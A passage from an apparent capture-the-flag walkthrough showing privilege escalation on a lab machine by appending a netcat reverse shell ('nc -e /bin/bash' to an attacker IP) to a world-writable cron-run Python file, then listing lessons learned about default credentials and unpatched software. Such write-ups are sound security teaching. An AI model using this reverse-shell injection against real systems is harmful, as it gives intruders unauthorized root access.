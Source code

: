 Run the script.

```text
./LinEnum.sh
```

We don’t get anything useful. Next, let’s try pspy. If you don’t have the script, you can download it from the following github repository.

```text
https://github.com/DominicBreuker/pspy
```

We know that the system is a 32 bit system so make sure you run pspy32. Upload it and run it on the attack machine in the same way we did for LinEnum.

After a minute we see an interesting process pop up.

![](https://miro.medium.com/max/943/1*Xz8gUedVbeUPuZEP-wmVHg.png)

If you view the permissions on the /opt/tmp.py file, you’ll see that everyone has read/write/execute privileges on it.

![](https://miro.medium.com/max/961/1*DIhulL7pCEZPfrsVwUe24w.png)

Therefore all we need to do is change the content of the file to send a reverse shell to our attack machine and then we simply wait for the cron job to send a privileged shell back.

Change the content of the file to send a reverse shell to our attack machine.

```text
echo "os.system('/bin/nc -e /bin/bash 10.10.14.12 7777')" >> /opt/tmp.py
```

Set up a listener to receive the reverse shell.

```text
nc -nlvp 7777
```

Wait a minute for the cron job to run.

![](https://miro.medium.com/max/808/1*ynxb5W6Wt8xB3sPlZDYZRg.png)

We have a shell! Grab the root.txt flag.

![](https://miro.medium.com/max/672/1*YCIcKSYTe77zalgSqIfAag.png)

## Lessons Learned <a id="f59a"></a>

To gain an initial foothold on the box we exploited three vulnerabilities.

1. Use of default credentials. The administrator used the default password that is shipped with the application. Since default credentials are publicly available and can be easily obtained, the user should have instead used a sufficiently long password that is difficult to crack.
2. Information disclosure. SSH credentials are stored in plaintext in one of the user’s emails. If it is necessary that the password be transmitted by email, the user should have changed the password upon the first login.
3. A Remote Code Execution \(RCE\) vulnerability with the James Remote server that allowed us to gain initial access to the machine. This could have been avoided if the user had patched the system and installed the most recent version of the software.

